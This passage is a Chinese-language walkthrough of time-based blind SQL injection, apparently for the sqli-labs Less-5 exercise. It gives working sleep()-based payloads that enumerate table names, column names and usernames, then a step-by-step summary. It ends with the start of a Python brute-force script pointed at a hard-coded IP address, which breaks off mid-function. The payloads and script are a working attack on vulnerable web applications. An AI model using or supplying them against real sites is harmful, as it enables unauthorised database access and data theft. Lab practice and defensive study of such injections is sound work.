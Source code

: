 ```sql
?id=1' and if(length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6, sleep(3), 1) --+
```

### 列名

```sql
?id=1' and if(ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=117, sleep(3), 1) --+
```

------

## 6️⃣ 获取数据

比如获取第一个用户的用户名：

```sql
?id=1' and if(ascii(substr((select username from users limit 0,1),1,1))=68, sleep(3), 1) --+
```

依次爆破，得到完整字段内容。

------

## 7️⃣ 总结流程

1. **确认注入点**：`and if(1=1,sleep(3),1)--+`
2. **确认数据库名长度**：`length(database())`
3. **爆数据库名逐字符**：`substr()+ascii()+if()+sleep()`
4. **枚举表名**：`information_schema.tables`
5. **枚举列名**：`information_schema.columns`
6. **获取数据**：`select username from users limit x,1`
7. **优化技巧**：用二分法爆 ASCII 提速

#### 一键爆破脚本

```
import requests
import time
import statistics

# ================= 配置区 =================
URL = "http://47.242.11.182:88/Less-5/"
PARAM = "id"
SLEEP = 3              # 每次 sleep 的秒数
MAXLEN = 30            # 最大长度，数据库/表/列/数据都限制
CHARS = list(range(32, 127))   # 可打印ascii
REPEAT = 3             # 每次探测重复次数
TIMEOUT = SLEEP + 5    # 超时时间

# ================= 工具函数 =================
def send_payload(payload: str) -> float:
    params = {PARAM: "1" + payload}
    start = time.time()
    try:
        r = requests.get(URL, params=params, timeout=TIMEOUT)
    except requests.exceptions.Timeout:
        return SLEEP + 1
    return time.time() - start

def is_true(condition: str) -> bool:
    """
    判断条件是否为真，多次采样，取多数投票
    """
    payload = f"' and if({condition}, sleep({SLEEP}), 0)--+"
```